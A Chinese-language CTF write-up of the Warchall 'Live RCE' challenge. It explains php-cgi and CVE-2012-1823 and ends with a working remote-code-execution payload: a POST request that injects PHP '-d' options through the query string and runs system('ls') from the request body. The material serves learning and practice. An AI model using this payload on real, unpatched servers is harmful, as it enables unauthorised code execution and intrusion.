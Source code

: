 ```yaml
---
title: weChall-Warchall Live RCE
date: 2017-12-18 20:42:00
tags: [WEB]
categories: CTF
---
```

## 前言
这一题确实以前没见过，怪我见识少咯！这是一道关于php-cgi的题目，要利用其在PHP低版本的公开漏洞`CVE-2012-1823`。
## 分析
首页给我的展示
```php
Live RCE!

Hello Guest!

Here are your $_SERVER vars:

Array
(
    [REDIRECT_UNIQUE_ID] => Wjezv7A6WcMAAAoRCTkAAAAA
    [REDIRECT_HANDLER] => application/x-httpd-php5-cgi
    [REDIRECT_STATUS] => 200
    [UNIQUE_ID] => Wjezv7A6WcMAAAoRCTkAAAAA
    [HTTP_HOST] => rce.warchall.net
    [HTTP_USER_AGENT] => Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
    [HTTP_ACCEPT] => text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    [HTTP_ACCEPT_LANGUAGE] => zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    [HTTP_ACCEPT_ENCODING] => gzip, deflate
    [HTTP_CONNECTION] => keep-alive
    [HTTP_UPGRADE_INSECURE_REQUESTS] => 1
    [PATH] => /bin:/sbin:/bin:/sbin:/usr/bin:/usr/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/i686-pc-linux-gnu/gcc-bin/5.4.0:/opt/bin
    [SERVER_SIGNATURE] => 
Apache Server at rce.warchall.net Port 80


    [SERVER_SOFTWARE] => Apache
    [SERVER_NAME] => rce.warchall.net
    [SERVER_ADDR] => 176.58.89.195
    [SERVER_PORT] => 80
    [REMOTE_ADDR] => 119.36.85.130
    [DOCUMENT_ROOT] => /home/level/20_live_rce/www
    [SERVER_ADMIN] => [no address given]
    [SCRIPT_FILENAME] => /home/level/20_live_rce/www/index.php
    [REMOTE_PORT] => 43691
    [REDIRECT_URL] => /index.php
    [GATEWAY_INTERFACE] => CGI/1.1
    [SERVER_PROTOCOL] => HTTP/1.1
    [REQUEST_METHOD] => GET
    [QUERY_STRING] => 
    [REQUEST_URI] => /index.php
    [SCRIPT_NAME] => /index.php
    [ORIG_SCRIPT_FILENAME] => /usr/bin/php53-cgi/php-cgi
    [ORIG_PATH_INFO] => /index.php
    [ORIG_PATH_TRANSLATED] => /home/level/20_live_rce/www/index.php
    [ORIG_SCRIPT_NAME] => /local-bin/php-cgi
    [PHP_SELF] => /index.php
    [REQUEST_TIME] => 1513599935
)

Kind Regards
The Warchall staff!
```
开始也没看出有啥毛病，不就是显示了$_SERVER变量的内容吗，咋利用啊？后来反复看了几遍，想着可能只有php-cgi这有什么漏洞吧。于是百度了一下果然有，就是`CVE-2012-1823`的PHP远程代码执行漏洞，曾经还轰动一时。乖乖，怪自己学识太少，这都不知道。
## 知识点
这里直接引用了[这篇博文](https://paper.seebug.org/297/)的一段话
>php-cgi也是一个sapi。在远古的时候，web应用的运行方式很简单，web容器接收到http数据包后，拿到用户请求的文件（cgi脚本），并fork出一个子进程（解释器）去执行这个文件，然后拿到执行结果，直接返回给用户，同时这个解释器子进程也就结束了。基于bash、perl等语言的web应用多半都是以这种方式来执行，这种执行方式一般就被称为cgi，在安装Apache的时候默认有一个cgi-bin目录，最早就是放置这些cgi脚本用的。

>但cgi模式有个致命的缺点，众所周知，进程的创建和调度都是有一定消耗的，而且进程的数量也不是无限的。所以，基于cgi模式运行的网站通常不能同时接受大量请求，否则每个请求生成一个子进程，就有可能把服务器挤爆。于是后来就有了fastcgi，fastcgi进程可以将自己一直运行在后台，并通过fastcgi协议接受数据包，执行后返回结果，但自身并不退出。

>php有一个叫php-cgi的sapi，php-cgi有两个功能，一是提供cgi方式的交互，二是提供fastcgi方式的交互。也就说，我们可以像perl一样，让web容器直接fork一个php-cgi进程执行某脚本；也可以在后台运行php-cgi -b 127.0.0.1:9000（php-cgi作为fastcgi的管理器），并让web容器用fastcgi协议和9000交互。

>那我之前说的fpm又是什么呢？为什么php有两个fastcgi管理器？php确实有两个fastcgi管理器，php-cgi可以以fastcgi模式运行，fpm也是以fastcgi模式运行。但fpm是php在5.3版本以后引入的，是一个更高效的fastcgi管理器，其诸多优点我就不多说了，可以自己去翻翻源码。因为fpm优点更多，所以现在越来越多的web应用使用php-fpm去运行php。
>CVE-2012-1823就是php-cgi这个sapi出现的漏洞，我上面介绍了php-cgi提供的两种运行方式：cgi和fastcgi，本漏洞只出现在以cgi模式运行的php中。
这个漏洞简单来说，就是用户请求的querystring被作为了php-cgi的参数，最终导致了一系列结果。
探究一下原理，RFC3875中规定，当querystring中不包含没有解码的=号的情况下，要将querystring作为cgi的参数传入。所以，Apache服务器按要求实现了这个功能。
但PHP并没有注意到RFC的这一个规则，也许是曾经注意并处理了，处理方法就是web上下文中不允许传入参数。

## 解决
看了上面的知识点就知道了如何利用了，于是有了下面的payload
```php
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input

POST data: <?php system('ls');?>
```